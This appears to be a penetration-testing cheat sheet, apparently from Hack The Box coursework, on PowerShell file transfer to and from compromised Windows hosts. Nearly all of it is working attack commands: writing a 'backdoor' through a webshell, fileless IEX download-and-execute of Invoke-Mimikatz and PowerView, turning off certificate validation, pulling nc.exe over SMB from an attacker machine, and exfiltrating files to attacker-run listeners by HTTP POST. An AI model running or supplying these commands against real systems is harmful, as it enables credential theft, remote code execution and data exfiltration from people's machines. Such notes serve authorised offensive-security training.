 # Download Operations

## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```

# Upload Operations

## 1) PowerShell Base64 Encode & Decode

- encode file
```powershell
PS C:\user> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\user> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
- paste it to decode
```bash
KiroMaged@htb[/htb]$ echo <base64>| base64 -d > hosts
```

## 2) PowerShell HTTP Upload

### Invoke-FileUpload to Python Upload Server
- listen 
```bash
$ python3 -m uploadserver 9999
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```
-  send req
```powershell
PS C:\user> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\user> Invoke-FileUpload -Uri http://172.24.121.19:9999/upload -File C:\Windows\System32\drivers\etc\hosts

```

### PowerShell Base64 Web Upload
- listen  
```bash
$  nc -lvnp 8000
listening on [any] 8000 ...
```
-  send req
```powershell
PS C:\user> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\user> Invoke-WebRequest -Uri http://172.24.121.19:8000/ -Method POST -Body $b64
```
